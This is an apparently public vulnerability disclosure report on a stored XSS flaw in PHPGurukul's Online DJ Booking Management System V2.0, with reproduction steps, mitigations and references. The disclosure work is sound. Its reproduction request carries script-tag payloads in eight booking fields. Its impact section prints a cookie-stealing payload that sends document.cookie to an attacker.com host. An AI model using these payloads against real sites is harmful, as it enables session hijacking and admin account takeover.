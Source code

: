 # Stored Cross-Site Scripting (XSS) Vulnerability Report

## Affected Product

| **Attribute**           | **Details**                                                                 |
|-------------------------|-----------------------------------------------------------------------------|
| **Vendor**              | PHPGurukul                                                                  |
| **Application Name**    | Online DJ Booking Management System                                         |
| **Version(s) Affected** | V2.0                                                                        |
| **Vulnerability**       | Stored Cross-Site Scripting (XSS)                                           |
| **Affected Path**       | `/view-booking-detail.php`, `/invoice-generating.php`                       |
| **Affected File(s)**    | `odms/admin/view-booking-detail.php`, `odms/admin/invoice-generating.php`   |

🔗 **Official Website:**  
[PHPGurukul - Online DJ Booking Management System - Project Source Code](https://phpgurukul.com/online-dj-booking-management-system-using-php-and-mysql/)

---

## ⚠️ Vulnerability Overview

Stored Cross-Site Scripting (Stored XSS) is a security vulnerability where malicious scripts are permanently stored on the server (e.g., in a database). When another user often an administrator views the stored data, the script is executed in their browser.

In this case, **anyone can submit an event request** through input fields. Since the inputs are **not sanitized or escaped**, an attacker can inject a malicious script into the request (e.g., `<script>alert('document.domain')</script>`). When an admin opens that booking request, the script executes in their browser, potentially leading to:

- Cookie theft
- Session hijacking
- Unwanted actions performed on behalf of the admin

## Steps to Reproduce

> ⚠️ **Note:** I downloaded the project source and hosted it on my Virtual Private Server (VPS).  
> **For privacy reasons, I'm hiding the domain name.**

1. **Book the service using the following URL:**

    ```
    https://domain.com/book-services.php?bookid=1
    ```

    ![Service Page](./images/book-service-page.png)

    Fill in test data and capture the request using **Burp Suite**.

2. **Edit the request parameters with XSS payloads.**

    Affected parameter names:

    - `name`
    - `email`
    - `edate` (event date)
    - `est` (event start time)
    - `eetime` (event end time)
    - `vaddress` (venue address)
    - `eventtype` (event type)
    - `addinfo` (additional info)

    Example request with payloads:

    ```javascript
    name=<script>alert("from-name")</script>&
    email=<script>alert("from-email")</script>%40gmail.com&
    mobnum=123&
    edate=<script>alert("from-date")</script>&
    est=<script>alert("from-start-time")</script>&
    eetime=<script>alert("from-end-time")</script>&
    vaddress=<script>alert("from-address")</script>&
    eventtype=<script>alert("from-type")</script>&
    addinfo=<script>alert("from-add-info")</script>&
    submit=Book
    ```

    ![XSS Payload Request](./images/burp-repeater.png)

3. **Log into the admin account and navigate to the new bookings page:**

    Sidebar → **BOOKING** → **New Booking**

    ```
    https://domain.com/admin/new-booking.php
    ```

    ![New Booking Page](./images/new-booking-page.png)

4. **Click the "View" button on the submitted booking.**

    The XSS payloads will trigger with JavaScript `alert()` pop-ups for each infected field.

    ![XSS Trigger - Name](./images/from-name.png)  
    ![XSS Trigger - Email](./images/from-email.png)  
    ![XSS Trigger - Date](./images/from-date.png)  
    ![XSS Trigger - Start Time](./images/from-start-time.png)  
    *(Additional alerts appear for End Time, Address, Event Type, and Additional Info.)*

5. **Click the "Update" button on the booking.**

    ![Update Booking](./images/update-app.png)

6. **Navigate to the approval bookings page:**

    Sidebar → **BOOKING** → **Approval Booking**

    ![Approval Bookings](./images/approval-page.png)

7. **Click the "Invoice" button.**

    The same XSS payloads will trigger again, one per infected field.

    ![Invoice XSS Trigger](./images/invoice-page-xss.png)


## Impact of Stored XSS

- Any user (no authentication required) can submit a booking with malicious JavaScript in a form field.
- The input is **not sanitized or escaped**, and the data is stored in the system.
- When the **admin views the booking** in the dashboard, the malicious script is executed in the admin's browser.
- This can lead to **admin account takeover** by stealing the session cookie using a simple payload like:

    ```html
    <script>fetch('https://attacker.com?c=' + document.cookie)</script>
    ```

- Once the attacker obtains the admin's cookie, they can impersonate the admin and gain full access to the system.

---

## ✅ Recommended Mitigations

- **Input Sanitization**  
  Strip or escape HTML/JavaScript tags from all user inputs before storing them.

- **Output Encoding**  
  Always encode data before rendering it in the browser (e.g., using `htmlspecialchars()` or the equivalent in your framework).

- **Use Templating Engines That Auto-Escape Output**  
  Leverage modern PHP templating engines that escape output by default:
  - **Twig**: `{{ name }}` auto-escapes output.
  - **Blade (Laravel)**: `{{ $name }}` also auto-escapes output.

- **Content Security Policy (CSP)**  
  Implement a strong CSP header to restrict execution of unauthorized scripts.

- **HTTPOnly Cookies**  
  Ensure session cookies are marked as `HttpOnly` to prevent access via JavaScript.

- **Input Validation**  
  Validate input type, format, and length to reject suspicious or unnecessary data.

---

## 📚 References

- [CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')](https://cwe.mitre.org/data/definitions/79.html)
- [CWE-614: Sensitive Cookie in HTTPS Session Without 'Secure' Attribute](https://cwe.mitre.org/data/definitions/614.html)
- [PortSwigger – Stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored)  
- [OWASP – Cross-Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/)  
- [OWASP – XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)

